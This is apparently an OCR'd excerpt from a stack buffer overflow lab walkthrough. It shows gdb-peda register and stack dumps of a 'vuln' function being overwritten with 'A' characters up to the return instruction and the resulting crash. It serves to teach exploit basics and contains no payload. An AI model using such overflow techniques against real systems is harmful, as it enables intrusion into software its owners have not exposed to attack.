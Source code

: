     EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x565561d8 <vuln+31>:        add    esp,0xc
       0x565561db <vuln+34>:        lea    eax,[ebp-0x14]
       0x565561de <vuln+37>:        push   eax
    => 0x565561df <vuln+38>:        call   0x56556050 <puts@plt>
       0x565561e4 <vuln+43>:        add    esp,0x4
       0x565561e7 <vuln+46>:        nop
       0x565561e8 <vuln+47>:        mov    ebx,DWORD PTR [ebp-0x4]
       0x565561eb <vuln+50>:        leave
    Guessed arguments:
    arg[0]: 0xffffd62c ('A' <repeats 34 times>, "\n\367\001")
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd628 --> 0xffffd62c ('A' <repeats 34 times>, "\n\367\001")
    0004| 0xffffd62c ('A' <repeats 34 times>, "\n\367\001")
    0008| 0xffffd630 ('A' <repeats 30 times>, "\n\367\001")
    0012| 0xffffd634 ('A' <repeats 26 times>, "\n\367\001")
    0016| 0xffffd638 ('A' <repeats 22 times>, "\n\367\001")
    0020| 0xffffd63c ('A' <repeats 18 times>, "\n\367\001")
    0024| 0xffffd640 ('A' <repeats 14 times>, "\n\367\001")
    0028| 0xffffd644 ("AAAAAAAAAA\n\367\001")
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    
    Breakpoint 1, 0x565561df in vuln ()
Run to ret and see top of the stack

    gdb-peda$
    [----------------------------------registers-----------------------------------]
    EAX: 0x26 ('&')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x5655a160 --> 0x410a01f7
    EDX: 0xf7f8e890 --> 0x0
    ESI: 0xf7f8d000 --> 0x1d5d8c
    EDI: 0x0
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd644 ("AAAAAAAAAA\n\367\001")
    EIP: 0x565561ec (<vuln+51>:     ret)
    EFLAGS: 0x282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
       0x565561e7 <vuln+46>:        nop
       0x565561e8 <vuln+47>:        mov    ebx,DWORD PTR [ebp-0x4]
       0x565561eb <vuln+50>:        leave
    => 0x565561ec <vuln+51>:        ret
       0x565561ed <main>:   push   ebp
       0x565561ee <main+1>: mov    ebp,esp
       0x565561f0 <main+3>: call   0x56556206 <__x86.get_pc_thunk.ax>
       0x565561f5 <main+8>: add    eax,0x2e0b
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd644 ("AAAAAAAAAA\n\367\001")
    0004| 0xffffd648 ("AAAAAA\n\367\001")
    0008| 0xffffd64c --> 0xf70a4141
    0012| 0xffffd650 --> 0x1
    0016| 0xffffd654 --> 0xffffd6e4 --> 0xffffd810 ("/root/Desktop/Stack/stack_0")
    0020| 0xffffd658 --> 0xffffd6ec --> 0xffffd82c ("LS_COLORS=rs=0:di=01;34:ln=01;36:mh=00:pi=40;33:so=01;35:do=01;35:bd=40;33;01:cd=40;33;01:or=40;31;01:mi=00:su=37;41:sg=30;43:ca=30;41:tw=30;42:ow=34;42:st=37;44:ex=01;32:*.tar=01;31:*.tgz=01;31:*.arc"...)
    0024| 0xffffd65c --> 0xffffd674 --> 0x0
    0028| 0xffffd660 --> 0x1
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    0x565561ec in vuln ()
After ret , see crash
